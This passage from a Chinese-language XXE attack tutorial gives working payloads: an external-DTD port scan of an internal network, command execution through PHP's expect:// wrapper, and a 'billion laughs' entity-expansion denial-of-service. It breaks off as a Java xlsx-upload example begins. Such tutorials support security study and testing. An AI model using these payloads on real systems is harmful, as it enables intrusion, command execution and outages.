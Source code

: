 因为我们的XML在引用外部DTD和外部实体的时候支持http协议,我们可以利用这个特点:

##### 实际利用:

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user SYSTEM "http://192.168.1.223:999">
<user><username>&all;</username><password>132123</password></user>
```
##### 效果:
(1)探测一个开放的端口:

![图片](https://ae01.alicdn.com/kf/U0d757ade74f74607ba4f9699eba9b5a9n.jpg)

(2)探测一个没开放的端口

![图片](https://ae01.alicdn.com/kf/U134234b08fa84026beb18e97e246cc881.jpg)

可以看到当探测到开放的端口时,响应时间比较短,不开放的端口响应时间明显加长!

##### 利用burpsuite的爆破模块(Intruder)对所在网段进行一个80端口探测:

![图片](https://ae01.alicdn.com/kf/U8a92540567254b4697bfc517bdf04dbbV.jpg)

### 6.利用php的扩展执行系统命令
当目标机器安装并加载了PHP的expect扩展,可以执行系统命令.(由于这个扩展不是默认安装的,所以很少碰到!)

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ELEMENT  ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>&xxe;</root>
```
### 7.利用XXE进行DOS攻击

在实验的过程中发现,单独一个数据包并不明显,可以结合burpsuite的爆破模块使用!(实际测试切记不要尝试)

```
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
<lolz>&lol9;</lolz>
```
### 8.Java中比较经典的一个利用点:
一般在上传xlsx的地方有可能会存在xxe漏洞,我们就这种情况带大家看下如何利用:

